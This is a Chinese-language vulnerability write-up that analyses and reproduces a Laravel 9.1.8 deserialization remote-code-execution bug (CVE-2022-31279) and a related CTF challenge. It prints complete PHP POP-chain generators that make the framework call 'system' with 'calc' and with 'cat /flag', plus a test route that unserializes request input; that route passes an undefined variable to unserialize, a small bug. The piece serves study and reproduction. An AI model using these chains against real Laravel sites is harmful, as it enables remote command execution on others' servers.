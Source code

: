 反序列化漏洞是如今很常见的漏洞类型，有很多分类，也有很多绕过方式。本文选取了一个今年比较典型的反序列化漏洞，进行了一个分析并复现。
# 漏洞详情
Laravel是一套简洁、优雅的PHP Web开发框架。
近日，Laravel 被披露存在多个安全漏洞，可允许通过反序列化POP链实现远程代码执行，如下：

`CVE-2022-31279`：Laravel远程代码执行漏洞
Laravel 9.1.8在处理反序列化数据时，允许通过 `IlluminateBroadcastingPendingBroadcast.php`中的 **__destruct** 和`FakerGenerator.php`中的 **__call**中的反序列化POP链实现远程代码执行。

# 漏洞分析
根据漏洞信息的描述, 跟进`src/Illuminate/Broadcasting/PendingBroadcast.php`中的`__destruct`方法, 可以看到这里的`$this->events`和`$this->event`均为可控的, 寻找可用的`dispatch`方法：
![1](https://img-blog.csdnimg.cn/c3e674a541c0453893e42a2d00fb8a9c.png)
![2](https://img-blog.csdnimg.cn/4aee4b681e7043eab88bc1df87ff58e8.png)
跟进`src/Illuminate/Bus/Dispatcher.php`中的`dispatch`方法, 这里的`$command`和`$this->queueResolver`均是可控的：
![3](https://img-blog.csdnimg.cn/0faa80ab03574e70a40d481acbf7590c.png)
跟进`dispatchToQueue`方法, `$command`和`$this->queueResolver`均是可控的, 可以利用该方法中的`call_user_func`方法来进行命令执行的利用：
![4](https://img-blog.csdnimg.cn/8a28e0bc19e7495fb7ed60610cc2c909.png)
接下来就是命令执行的语句, 注意到上图中的代码`$connection = $command->connection ?? null;`, 这里可以通过`src/Illuminate/Broadcasting/BroadcastEvent.php`中的类中变量来控制`$connection`, 从而达到命令执行的目的。

# POP Chain

```php
<?php

namespace Illuminate\Contracts\Queue{

    interface ShouldQueue {}
}

namespace Illuminate\Bus{

    class Dispatcher{
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";

        }
    }
}

namespace Illuminate\Broadcasting{

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct() {}
    }

    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct() {
            $this->event = new BroadcastEvent();
            $this->event->connection = "calc";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}

namespace {
    $pop = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($pop));
}
```
# 漏洞复现
我们从laravel官网下载了`Laravel 9.1.8`的源码之后，添加一个入口，修改`routes\web.php`如下:

```php
<?php

use Illuminate\Support\Facades\Route;

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function (\Illuminate\Http\Request $request) {

    $vuln = base64_decode($request->input("vuln"));
    unserialize($ser);
    return "H3rmesk1t";
});
```

添加了入口之后，通过上面的分析和得到的POP链，即可进行复现：
![5](https://img-blog.csdnimg.cn/d9289c59f7a0464c9df5ccc191318120.png)
# 相同漏洞的复现
本次复现，源码来源于cj师傅之前出题所用的源码和2022NepCTF的题目：

下载源码后，是Laravel框架：
![6](https://img-blog.csdnimg.cn/87682aa9879e43d88fc87476d7850ed8.png)
![7](https://img-blog.csdnimg.cn/9b040db537094007bf13b38a50f9c5e1.png)

`hello路由`是一个反序列化点
可以用POP链：


```php
<?php
namespace Illuminate\Contracts\Queue{
  interface ShouldQueue {}
}
namespace Illuminate\Bus{
  class Dispatcher{
    protected $container;
    protected $pipeline;
    protected $pipes = [];
    protected $handlers = [];
    protected $queueResolver;
    function __construct()
    {
        $this->queueResolver = "system";
    }
  }
}
namespace Illuminate\Broadcasting{
  use Illuminate\Contracts\Queue\ShouldQueue;
  class BroadcastEvent implements ShouldQueue {
    function __construct() {}
  }
  class PendingBroadcast{
    protected $events;
    protected $event;
    function __construct() {
        $this->event = new BroadcastEvent();
        $this->event->connection = "cat /flag";
        $this->events = new \Illuminate\Bus\Dispatcher();
    }
  }
}
namespace {
  $pop = new \Illuminate\Broadcasting\PendingBroadcast();
  echo base64_encode(serialize($pop));
}
```

可以得到结果：

![8](https://img-blog.csdnimg.cn/feff9a24fd3a45ebb0ceb47060fa1b8a.png)
![9](https://img-blog.csdnimg.cn/7f3c384530ed401e817bf5de0f5e64a0.png)
因此复现成功！